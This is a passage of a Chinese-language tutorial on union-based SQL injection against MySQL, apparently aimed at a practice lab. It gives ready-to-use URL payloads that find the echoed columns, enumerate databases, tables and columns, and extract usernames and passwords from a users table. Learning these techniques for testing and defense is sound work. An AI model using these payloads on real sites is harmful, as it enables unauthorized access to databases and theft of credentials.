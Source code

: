 group是对数据进行分组，也可以起到相同的效果。

**2) 判断回显位**

有时候页面里只有一个回显位，所以我们需要用-1保证前面的查询查不出数据以确保后面的联合查询能正常查询，假如我们确定了一共有三个字段，我们可以使用：

```
?id=-1' union select 1,2,3 --+
```

通过数字是几判断回显位

**3) 获取系统数据库名**

group_concat()的作用是把回显放到一行里，便于观察

```
?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+
```

**4) 获取当前数据库名**

```
?id=-1' union select 1,2,database() --+
```

**5) 获取数据库中的表**

获取当前数据的所有表名

```
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

或者

```
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```

即获取security数据库下的所有表名

**6) 获取表里的列名(即字段名)**

获得users表下的所有字段名

```
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```

**7) 获取数据**

如果我们想获得users表下username以及password的值：

```
?id=-1' union select 1,2,group_concat(username , password) from users --+
```

简单的说，**查库名->查表名->查字段名->查数据**

### MySQL < 5.0
